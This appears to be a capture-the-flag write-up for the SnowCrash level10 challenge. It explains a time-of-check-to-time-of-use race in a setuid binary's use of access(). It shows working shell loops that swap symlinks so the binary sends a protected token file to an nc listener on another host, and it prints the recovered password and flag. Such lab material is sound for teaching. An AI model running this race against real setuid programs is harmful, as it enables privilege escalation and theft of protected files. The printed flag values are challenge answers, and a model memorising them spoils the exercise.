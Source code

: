 ### Exploit

Let's take a quick look at both the script and the token file.

```
    level10@SnowCrash:~$ ./level10 token
    ./level10 file host
	    sends file to host if you have access to it
    level10@SnowCrash:~$ ./level10 token localhost
    You don't have access to token
```
Supposedly, we need to find a host which has access to said token. "Access" is a keyword here, as we have to find the "right" connection in order to open and read what's inside the token file. 

```
    level10@SnowCrash:~$ nm level10
    [...]
    08048620 T _start
            U access@@GLIBC_2.0
    0804a064 b completed.6159
            U connect@@GLIBC_2.0
    0804a044 W data_start
    0804a068 b dtor_idx.6161
            U exit@@GLIBC_2.0
            U fflush@@GLIBC_2.0
    080486b0 t frame_dummy
            U htons@@GLIBC_2.0
            U inet_addr@@GLIBC_2.0
    080486d4 T main
            U open@@GLIBC_2.0
            U printf@@GLIBC_2.0
            U puts@@GLIBC_2.0
            U read@@GLIBC_2.0
            U socket@@GLIBC_2.0
    0804a060 B stdout@@GLIBC_2.0
            U strerror@@GLIBC_2.0
            U write@@GLIBC_2.0
```
If you `man` access(), there's one interesting part about "security considerations":

```
	SECURITY CONSIDERATIONS
     The result of access() should not be used to make an actual access control decision, since its
     response, even if correct at the moment it is formed, may be outdated at the time you act on it.
     access() results should only be used to pre-flight, such as when configuring user interface ele-
     ments or for optimization purposes.  The actual access control decision should be made by
     attempting to execute the relevant system call while holding the applicable credentials, and
     properly handling any resulting errors; and this must be done even though access() may have pre-
     dicted success.

     Additionally, set-user-ID and set-group-ID applications should restore the effective user or
     group ID, and perform actions directly rather than use access() to simulate access checks for
     the real user or group ID.
```
Lovely! The use of access() here is indeed "be used to make an actual access control decision". Within a matter of second, we may replace the user which's got access to the call by another one. Here's a brand new exploit for you: [TOCTOU race condition](https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use). The access part of the script probably looks very much like this:

```
	if (access("token", W_OK) != 0) {
   		exit(1);
	}

	fd = open("token", O_WRONLY);
	write(fd, buffer, sizeof(buffer));
```
The implication is that applications cannot assume the state managed by the operating system (in this case the file system namespace) will not change between system calls. First, open port 6969 with `nc -lk 6969`.

```
	level10@SnowCrash:~$ ls -l level10 token
	-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
	-rw-------  1 flag10 flag10     26 Mar  5  2016 token
	level10@SnowCrash:~$ while true; do ln -sf /home/user/level10/token /tmp/key; ln -sf /home/user/level10/level10  /tmp/key; done &
	level10@SnowCrash:~$ while true; do ./level10 /tmp/key 10.12.1.113; done
	You don't have access to /tmp/key
	Connecting to 10.12.1.113:6969 .. Connected!
	Sending file .. wrote file!
	woupa2yuojeeaaed06riuj63c
	level10@SnowCrash:~$ su flag10
	Password:
	Don't forget to launch getflag !
	flag10@SnowCrash:~$ getflag
	Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```
Marvelous.
